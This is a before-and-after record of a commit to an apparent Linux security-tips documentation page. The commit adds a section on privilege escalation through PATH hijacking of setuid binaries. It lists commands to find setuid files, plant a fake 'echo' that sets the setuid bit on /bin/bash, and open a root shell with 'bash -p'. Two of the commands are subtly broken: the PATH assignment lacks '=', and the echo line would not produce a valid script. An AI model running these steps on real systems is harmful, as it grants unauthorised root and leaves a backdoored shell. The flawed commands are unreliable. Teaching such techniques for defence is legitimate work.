

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/linux.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add oneliner to add setuid to bash

````diff
--- a/docs/linux.md
+++ b/docs/linux.md
@@ -1,5 +1,14 @@
-Linux
-=====
+---
+title: "Linux"
+description: "Linux tips"
+date: 20/11/2019
+categories:
+ - Linux
+tags:
+ - linux
+ - bash
+ - privesc
+---
 
 ### Wildcard
 
@@ -13,6 +22,38 @@
 -al
 $ ls *
 -rw-rw-r-- 1 root root 0 jun 28 21:38 -al
+```
+
+
+### Privilege Escalation using PATH variables
+
+Here is a simple script to exploit privesc on a binary/script with setuid.
+
+First you search for vulnerable files:
+
+```bash
+find / -perm -u=s -type f 2>/dev/null
+```
+
+If the script use commands with a relative path then. With `echo` for instance:
+
+```bash
+echo "#!/bin/bash\nchmod u+s /bin/bash" > echo
+chmod u+x echo
+PATH `pwd`:$PATH ./vuln_binary
+```
+
+This script add the setuid bit to `/bin/bash`:
+
+```bash
+#!/bin/bash
+chmod u+s /bin/bash
+```
+
+Then you run it with the following command:
+
+```bash
+/bin/bash -p
 ```
 
 
````
